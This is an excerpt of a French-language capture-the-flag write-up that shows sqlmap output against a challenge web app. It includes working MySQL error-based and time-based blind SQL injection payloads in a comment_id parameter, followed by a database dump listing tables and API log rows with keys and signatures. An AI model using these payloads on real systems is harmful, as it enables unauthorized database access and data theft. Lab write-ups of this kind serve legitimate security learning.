 ```plain
[17:04:37] [INFO] testing 'MySQL > 5.0.11 OR time-based blind'
[17:05:37] [INFO] (custom) POST parameter '#1*' seems to be 'MySQL > 5.0.11 OR time-based blind' injectable 
--- snip ---
sqlmap identified the following injection points with a total of 107 HTTP(s) requests:
---
Place: (custom) POST
Parameter: #1*
    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE or HAVING clause
    Payload: comment_id=-9267 OR (SELECT 4557 FROM(SELECT COUNT(*),CONCAT(0x71786c6871,(SELECT (CASE WHEN (4557=4557) THEN 1 ELSE 0 END)),0x71687a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)&csrf=plop

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 OR time-based blind
    Payload: comment_id=-2919 OR 3325=SLEEP(5)&csrf=plop
---
[17:08:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL 5.0
```

Une fois que *sqlmap* a détecté la méthode d'injection il suffit de le relancer en spécifiant les actions qui nous intéressent (ici dumper les infos de la base). Je vous renvoie à d'autres articles de CTF sur mon blog pour plus d'information.  

On obtient alors les informations suivantes (en vrac) :  

```plain
current database:    'cysca'
current user:    'cysca@localhost'

[5 tables]
+--------------+
| user         |
| blogs        |
| comments     |
| flag         |
| rest_api_log |
+--------------+

Table: rest_api_log
+--+------+-----------------------------------------------------------------------------------------------------------------------------------+------------------+----------------+-----------------------------+
|id|method| params                                                                                                                            | api_key          | created_on     | request_uri                 
+--+------+-----------------------------------------------------------------------------------------------------------------------------------+------------------+----------------+-----------------------------+
| 1| POST | contenttype=application%2Fpdf&filepath=.%2Fdocuments%2FTop_4_Mitigations.pdf&api_sig=235aca08775a2070642013200d70097a             | b32GjABvSf1Eiqry | 02-21 09:27:20 | \\/api\\/documents          |
| 2| GET  | _url=%2Fdocuments&id=2                                                                                                            | NULL             | 02-21 11:47:01 | \\/api\\/documents\\/id\\/2 |
| 3| POST | contenttype=text%2Fplain&filepath=.%2Fdocuments%2Frest-api.txt&api_sig=95a0e7dbe06fb7b77b6a1980e2d0ad7d                           | b32GjABvSf1Eiqry | 02-21 11:54:31 | \\/api\\/documents          |
```